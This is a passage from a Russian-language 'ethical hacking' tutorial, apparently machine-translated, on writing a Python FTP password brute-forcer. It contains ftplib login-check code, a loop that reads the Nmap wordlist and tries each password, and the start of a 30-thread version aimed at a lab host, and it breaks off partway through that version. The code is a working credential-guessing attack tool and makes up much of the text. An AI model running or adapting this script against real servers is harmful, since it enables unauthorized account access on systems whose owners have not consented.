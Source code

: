         return True
Получите: Создайте 24 этических хакерских скрипта и инструмента с помощью Python Book

Ничего особенного; инициализируем объект FTP-сервера с помощью ftplib. FTP(), а затем мы подключаемся к этому хосту и пытаемся войти в систему, это вызовет исключение всякий раз, когда учетные данные неправильны, поэтому, если оно будет поднято, мы просто вернем False и True в противном случае.

Мы будем использовать список известных паролей. Не стесняйтесь использовать любой, или вы можете создать свой собственный пользовательский список слов с помощью Crunch. Однако в этом уроке мы будем использовать список паролей Nmap, который содержит около 5000 паролей. Если вы используете Kali Linux, он находится в "/usr/share/wordlists/nmap.lst". В противном случае получите его здесь.

Как только он у вас есть, поместите его в текущий каталог и назовите его wordlist.txt и используйте следующий код:

# read the wordlist of passwords
passwords = open("wordlist.txt").read().split("\n")
print("[+] Passwords to try:", len(passwords))
Теперь все, что нам нужно сделать, это запустить вышеуказанную функцию для всех этих паролей:

# iterate over passwords one by one
# if the password is found, break out of the loop
for password in passwords:
    if is_correct(password):
        break
Теперь этот код в порядке, но он очень медленный. Он использует только один поток, который пытается установить FTP-соединение для каждого пароля последовательно.

Связанные с: Как сделать сканер поддоменов в Python.

Давайте использовать потоки для ускорения этого процесса; Следующий код является полным, использующим многопоточность:

import ftplib
from threading import Thread
import queue
from colorama import Fore, init # for fancy colors, nothing else

# init the console for colors (for Windows)
# init()
# initialize the queue
q = queue.Queue()
# number of threads to spawn
n_threads = 30
# hostname or IP address of the FTP server
host = "192.168.1.113"
# username of the FTP server, root as default for linux
user = "test"
# port of FTP, aka 21
port = 21
